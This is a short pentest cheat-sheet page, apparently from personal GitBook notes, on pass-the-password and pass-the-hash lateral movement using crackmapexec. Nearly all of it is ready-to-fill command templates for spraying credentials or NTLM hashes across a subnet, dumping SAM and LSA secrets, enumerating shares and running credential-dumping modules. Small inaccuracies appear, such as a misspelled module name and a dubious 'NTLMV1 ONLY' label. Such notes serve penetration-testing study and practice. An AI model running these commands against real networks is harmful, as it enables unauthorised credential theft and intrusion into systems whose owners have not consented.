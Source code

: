 ```yaml
---
description: Pass The Password/Pass the hash
---
```


# Pass Attacks

If we crack a pass or get to dump sam hashes ;then we are able to try the lateral movement

crackmapexec

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -d <domain> -p <password>
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption><p>Example Output #Check for pwn3d</p></figcaption></figure>

Pass The hash Attack (NTLMV1 ONLY)

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash>
```

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash> --local-auth
```

This help to do local auth and dump sam hashes for us

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash> --local-auth --sam
```

To enuerate the shares

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash> --local-auth --shares
```

Dumping lsa

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash> --local-auth --lsa
```

Using Modules&#x20;

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash> --local-auth -M <module name>
```

```
crackmapexec smb <ip/ipblock ex=192.168.132.0/24> -u <user> -H <hash> --local-auth -M lssasy
```

crack map exec database;run

```
cmedb
```

then u get into an data base

type `help` for more info&#x20;
